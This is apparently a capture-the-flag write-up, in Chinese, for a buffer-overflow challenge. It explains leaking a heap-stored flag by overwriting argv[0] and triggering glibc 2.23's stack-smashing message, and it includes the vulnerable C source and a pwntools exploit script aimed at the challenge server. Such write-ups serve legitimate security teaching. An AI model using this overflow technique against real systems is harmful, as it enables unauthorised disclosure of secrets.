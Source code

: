 # 🎭🎭🎭🎭🎭Welcome to AVE Mujica🎶
> Author: 堇姬Naup

tag: `pwn`

## 分析
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>

int main() {

    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    void *stage;
    int AVEmujica;
    char your_input[16];

    AVEmujica = open("/home/chal/flag", O_RDONLY);
    printf("=====================================================\n");
    printf("…ようこそ。Ave Mujica の世界へ\n");
    printf("=====================================================\n");
    if (AVEmujica < 0) {
        printf("CRYCHIC Funeral\n");
        exit(0);
    }

    stage = malloc(0x100);
    read(AVEmujica, stage, 0x100);
    printf("Where is AVE Mujica: %p\n", stage);
    printf("呪縛なの？\n救済なの？ ");
    gets(your_input);
    printf("Ave Musica…戻れない所まで\n");

    return 0;
}

```

他malloc一塊chunk並存放slime core(flag)
並且使用者可以輸入一些東西，這裡存在無長度限制的buffer overflow					  
					 
## 攻擊					   
有buffer overflow了但是會碰到很多問題，首先是保護全開
再來是可以寫ret address但是不知道要寫甚麼，ROPgadget不夠，又沒辦法leaklibc					   
					   
我們只有flag的位置而已
					   
![stack_smashing](img/stack_smashing.png)

這邊觀察一件事，當我們在glibc 2.23觸發stack smashing detect的時候，他會噴出./demo，也就是你ELF的位置			
					   
他是去哪裡找到ELF的路徑的					   
					   
接下來來翻source code					   

通常如果有開canary會在最下方看到`__stack_chk_fail`	
追進去看會call `__fortify_fail`					   
https://elixir.bootlin.com/glibc/glibc-2.23.90/source/debug/stack_chk_fail.c
```c
void
__attribute__ ((noreturn))
__stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
```

`__fortify_fail`會call __libc_message，ELF路徑就是`__libc_argv[0]`					  
https://elixir.bootlin.com/glibc/glibc-2.23.90/source/debug/fortify_fail.c#L26
```c
void
__attribute__ ((noreturn)) internal_function
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
		    msg, __libc_argv[0] ?: "<unknown>");
}
```					   
					   
這是一個在stack上的一個pointer，這裡會印出他指向位置上的值					   
結合buffer overflow，如果我們能一直往下蓋，把該pointer蓋成flag的位置，就可以透過stack smashing去leak出flag了


## script
```python
from pwn import *

r=remote("cha-thjcc.scint.org",10100)

r.recvuntil(b"Where is AVE Mujica: ")
address = int(r.recvline().strip(),16)
r.sendline(b'a'*0x10+p64(address)*200)

r.interactive()
```
